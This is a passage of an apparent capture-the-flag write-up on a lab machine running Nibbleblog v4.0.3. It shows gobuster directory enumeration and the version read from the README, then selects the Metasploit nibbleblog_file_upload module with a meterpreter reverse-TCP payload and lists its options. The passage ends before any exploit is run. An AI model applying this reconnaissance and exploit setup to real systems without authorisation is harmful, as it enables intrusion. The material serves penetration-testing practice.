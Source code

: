 Gobuster shows us the following directory entries for nibbleblog:

```
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/install.php (Status: 200)
/content (Status: 301)
/languages (Status: 301)
/sitemap.php (Status: 200)
/index.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/COPYRIGHT.txt (Status: 200)
/LICENSE.txt (Status: 200)
```

On the url http://10.10.10.75/nibbleblog/README we find the release of Nibbleblog is v4.0.3
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
...
```

We can find the exploit for Nibbleblog v4.0.3 in Metasploit, but we need a username/password:

```
msf6 > search nibble

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):
```